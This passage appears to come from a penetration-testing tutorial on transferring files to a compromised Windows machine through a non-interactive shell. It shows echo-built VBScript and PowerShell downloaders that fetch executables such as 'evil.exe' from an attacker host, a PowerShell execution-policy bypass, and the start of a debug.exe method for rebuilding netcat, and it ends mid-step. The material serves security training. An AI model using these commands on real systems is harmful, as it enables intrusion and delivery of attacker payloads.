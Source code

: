 ```
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

You then execute the script like this:

```
cscript wget.vbs http://192.168.10.5/evil.exe evil.exe
```

## PowerShell

This is how we can download a file using PowerShell. Remember since we only have a non-interactive shell we cannot start PowerShell.exe, because our shell can't handle that. But we can get around that by creaing a PowerShell-script and then executing the script:

```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.1.101/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

Now we invoke it with this crazy syntax:

```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

## Debug.exe

This is a crazy technique that works on windows 32 bit machines. Basically the idea is to use the `debug.exe` program. It is used to inspect binaries, like a debugger. But it can also rebuild them from hex. So the idea is that we take a binaries, like `netcat`. And then disassemble it into hex, paste it into a file on the compromised machine, and then assemble it with `debug.exe`.

`Debug.exe` can only assemble 64 kb. So we need to use files smaller than that. We can use upx to compress it even more. So let's do that:

```
upx -9 nc.exe
```

Now it only weights 29 kb. Perfect. So now let's disassemble it:
